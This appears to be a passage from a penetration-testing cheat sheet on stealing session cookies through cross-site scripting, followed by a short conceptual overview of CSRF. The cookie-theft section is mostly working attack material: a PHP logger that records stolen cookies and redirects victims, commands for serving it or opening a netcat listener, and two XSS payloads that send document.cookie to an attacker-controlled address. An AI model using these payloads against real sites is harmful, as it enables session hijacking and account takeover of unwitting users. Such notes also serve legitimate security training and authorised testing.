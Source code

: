 #### Obtaining session cookies through XSS

<a href="https://webhook.site/">Webhook</a><br/>
<a href="https://app.interactsh.com">Interactsh</a>

Create php script that will receive our request and log it to a text file:

```
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

Start a php server running our script;

```
php -S <VPN/TUN Adapter IP>:8000
```

Payload:

```
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

#### Obtaining session cookies via XSS (Netcat edition)

```
nc -nlvp 8000
```

```
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```
<hr/>

### Cross-Site Request Forgery (CSRF or XSRF)

Cross-Site Request Forgery (CSRF) exploits a user's authenticated session to execute unintended actions on their behalf in a web application. It often involves attacker-crafted web pages containing malicious requests that impersonate the victim, leveraging the absence of anti-CSRF mechanisms.

#### Key Characteristics of CSRF Attacks:

1. Targeted Functions:
    - CSRF typically targets state-changing actions on the server but can also access sensitive data.
2. Impact:
    - For regular users, it compromises their data or operations.
    - For administrative users, it can compromise the entire application.
3. Same-Origin Policy (SOP):
    - SOP restricts interaction between different origins but does not prevent CSRF attacks, as attackers don’t need to read the server’s response.
